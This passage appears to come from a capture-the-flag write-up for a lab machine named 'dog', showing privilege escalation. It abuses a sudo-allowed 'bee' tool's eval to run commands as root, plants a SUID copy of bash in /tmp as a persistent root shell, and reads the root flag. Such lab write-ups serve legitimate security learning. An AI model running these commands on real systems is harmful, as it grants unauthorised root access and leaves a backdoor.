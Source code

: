 ### c) Exploitation

Arbitrary code execution:

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('whoami && id');"
```

Output:

```
root
uid=0(root) gid=0(root)
```

For a persistent shell:

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('cp /bin/bash /tmp/bash && chmod u+s /tmp/bash');"
```

Then:

```bash
/tmp/bash -p
whoami
# root
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-xl">
        <i class="fas fa-crown mr-2 text-amber-500"></i>
        root@dog obtained \\!
    </p>
</div>

Root flag:

```bash
cat /root/root.txt
```

<div class="bg-gradient-to-r from-amber-500/10 to-yellow-500/10 p-6 rounded-xl border-l-4 border-amber-500 my-4">
    <div class="flex items-center gap-4">
        <div class="text-5xl text-amber-500">
            <i class="fas fa-trophy"></i>
        </div>
        <div class="flex-1">
            <h4 class="text-2xl font-bold text-amber-600 dark:text-amber-400 mb-2">Machine Pwned\\!</h4>
            <p class="text-gray-700 dark:text-gray-300">
                <i class="fas fa-flag text-green-500 mr-2"></i><strong>User flag:</strong> /home/johncusack/user.txt<br>
                <i class="fas fa-flag text-red-500 mr-2"></i><strong>Root flag:</strong> /root/root.txt
            </p>
        </div>
    </div>
</div>
